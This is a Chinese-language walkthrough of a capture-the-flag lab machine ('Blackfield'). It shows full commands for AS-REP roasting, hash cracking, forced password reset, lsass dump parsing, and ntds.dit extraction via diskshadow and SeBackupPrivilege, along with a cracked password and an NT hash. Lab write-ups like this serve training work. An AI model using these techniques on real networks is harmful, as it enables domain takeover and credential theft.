

# 信息收集

## nmap


## ldapsearch


```
DomainDnsZones.Blackfield-Windows_Active.local
ForestDnsZones.Blackfield-Windows_Active.local
```

## smb

`smbmap -H 10.10.10.192 -u null` ，匿名可以读取`Profiles`和`IPC`


成功连接到后有很多空文件夹,将空文件夹导出作为用户名，看看是否有不需要Kerberos 认证的


## AS-REP Roasting攻击

```
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 Blackfield.local/$user ; done | teegetnpusers
```


```
hashcat -m 18200 -a0 password.txt /usr/share/wordlists/rockyou.txt
```


```
#00^BlackKnight
```

使用该用户去尝试smb，winrm是否可以登陆

```
smbmap -H 10.10.10.192 -u support -p '#00^BlackKnight'
```


smb有其他可以读的目录，但是都没有有用信息

使用bloodhound-python读取域信息，然后导入bloodhound，使用bloodhound-python该py脚本读取到的信息建议导入到4.2或4.3版本的bloodhound中，其他版本可能会导入失败

```
bloodhound-python -u support -p '#00^BlackKnight' -d Blackfield-Windows_Active.local -ns
10.10.10.192 -c DcOnly
```


`support`用户对`audit2020`有强制修改密码的权限,现在知道support的密码，尝试修改audit2020的密码


修改成功，密码有复杂度要求，修改时需要注意

然后使用audit2020用户访问smb的forensic目录


`mimikatz`就是从`lsass.DMP`中转储明文凭证和hash值，所以将该zip下载到本地，但是因为网速问题下载失败，可以尝试挂载到本地目录，然后copy出来

linux下可以使用pypykatz工具来转储这个文件


```
svc_backup：9658d1d1dcd9250115e2205d9f48400d
```

对该用户进行smb和winrm测试，winrm可以远程连接（密码使用NT值），远程连接之后就可以得到user.txt


# 提权

该用户有SeBackupPrivilege，并且属于Backup Operators组

<font color=green>他们可以提取用户通常无法访问的文件和目录。属于该组的权限允许用户备份任何文件，但是，一旦文件被打开用于读取访问，备份操作员可以将其重定向到任何位置。</font>>


可以使用该权限来读取想读取的文件

下载所需要使用的文件https://github.com/giuliano108/SeBackupPrivilege.git




无权读取root.txt，读取了notes.txt，root.txt可能是加密的

##  获取ntds.dit

接下来想办法获取 `ntds.dit`文件，该文件存放所有密码哈希的数据库，但是是无法直接读取的，因为当目标机器运行时，该文件保持被使用状态，这使得无法使用常规方法复制。因此，为了绕过此限制，我们需要使用 diskshadow 功能。这是一个内置的 Windows 功能，允许我们创建一个当前正在使用的驱动器的副本。

diskshadow可以以命令的形式运行文件中的内容，逐行运行，脚本内容：

文章建议在 C:\windows\system32下运行，有的用户可能没有该目录下的可写权限（运行时可以将文件放在其他目录），运行以下命令就会失败，

```
set context persistent nowriters
add volume c: alias df
create
expose %df% z:
```

可以指定创建文件的目录

```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```

在上传到windows时需要进行一下`unix2dos`转码

运行命令：`diskshadow /s c:\programdata\vss.dsh`


然后将ntds.dit和system备份即可

```
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit C:\Users\svc_backup\Desktop
reg.exe save hklm\system  C:\Users\svc_backup\Desktop

备份到指定目录，然后下载到本地
```

 然后导出hash

```
secretsdump.py -system system -ntds ntds.dit LOCAL
```


